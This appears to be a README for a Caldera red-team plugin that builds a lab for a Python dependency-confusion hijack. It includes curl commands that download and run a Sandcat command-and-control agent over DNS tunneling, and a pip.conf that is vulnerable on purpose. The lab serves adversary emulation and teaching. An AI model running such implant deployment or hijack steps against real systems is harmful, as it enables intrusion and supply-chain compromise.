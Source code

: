 
##### Testing the DNS Tunneling Agent
It is recommended to ensure DNS tunneling works by trying to run a DNS agent on the Caldera server. Start up Caldera server. The commands to deploy a Sandcat DNS tunneling agent (since it's not yet automatically provided in the Agents UI) are below. Replace http_server with your Caldera server's HTTP contact and dns_server with your Caldera server's DNS socket.
```
http_server="http://caldera01.red:8888"
dns_server="caldera01.red:8853"
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" -H "gocat-extensions:dns_tunneling" $http_server/file/download > sandcat_dns
chmod +x sandcat_dns
./sandcat_dns -c2 DnsTunneling -server $dns_server -v
```

### Target Victim Machine (vulnerable01.blu)
Setup a VM to serve as the victim machine. On the user that you plan to exploit, setup pip.conf to point to your simulated "public" PyPi repo and simulated "internal" PyPi repos. This file is usually at ~/.config/pip/pip.conf. An example is below. This is the vulnerability we will exploit.

~/.config/pip.conf: 
```
[global]
extra-index-url = http://pypiext01.ext:8080/simple/
                  http://pypiblu01.blu:8080/simple/
trusted-host = pypiext01.ext
               pypiblu01.blu
```

### (Optional) Victim Machine for Dependency Name Scraping (compromised01.blu)
This plugin comes with abilities to scrape a machine for the names of potential target packages. To see it in use, setup a VM and install a Caldera agent on it. Drop Python requirements.txt files in any agent-readable location on the machine containing the name of a simulated "internal" package (i.e., not matching the name of any real package on PyPi).

### Python Repository Servers (pypiblu01.blu and pypiext01.ext)
pypiblu01.blu refers to the simulated "internal" victim-controlled PyPi repo. pypiext01.ext refers to the simulated "public" attacker-writable PyPi repo.

We used https://pypi.org/project/pypiserver/ to run our Python repositories when developing this plugin. Configuring authentication is not necessary.

#### Uploading a Package to pypiblu01.blu
We need to upload the package we wish to hijack to pypiblu01.blu. This package doesn't need to have any actual code in it. The necesssary files are below.

setup.py​:
```
#!/usr/bin/env python3

from distutils.core import setup

setup(name='vulnerable-py',
      version='1.0',
      description='Vulnerable package to be targeted by hijacking',
      author='Dylan Cao',
      author_email='dvc8bg@virginia.edu',
      packages=['vulnerable-py'])
```
